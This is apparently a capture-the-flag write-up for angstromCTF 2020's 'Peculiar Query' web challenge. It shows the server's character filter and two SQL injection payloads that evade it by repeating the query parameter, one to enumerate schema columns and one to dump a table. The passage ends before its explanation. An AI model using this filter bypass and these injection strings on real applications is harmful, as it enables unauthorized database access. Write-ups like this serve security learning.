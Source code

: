 ```yaml
---
title: "ångstromCTF 2020 - Peculiar Query Writeup"
date: 2020-03-19T8:44:29Z
draft: true
---
```


We are greeted with a simple page,
we can make queries and see the [source](/ctf/angstrom/peculiar_query/index.js).

This challenge stumped me, it took days and I wake up in the middle of the night screaming how stupid I am.

Our queries get filtered by the following code:

```js
let censored = false;
for (let i = 0; i < q.length; i++) {
    if (censored || "'-\".".split``.some(v => v == q[i])) {
        censored = true;
        q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
    }
}
q = q.substring(0, 80);
```

So we cannot make any query and if so, it gets cut down to 80 characters, 
there is no escaping without more Javascript magic.

The solution:

```
?&q=%25' UNION ALL select column_name from information_schema.columns; --&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q='
```

Followed by:

```
?&q=%25' UNION ALL select crime from Criminals; --&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q='
```

So why does this happen?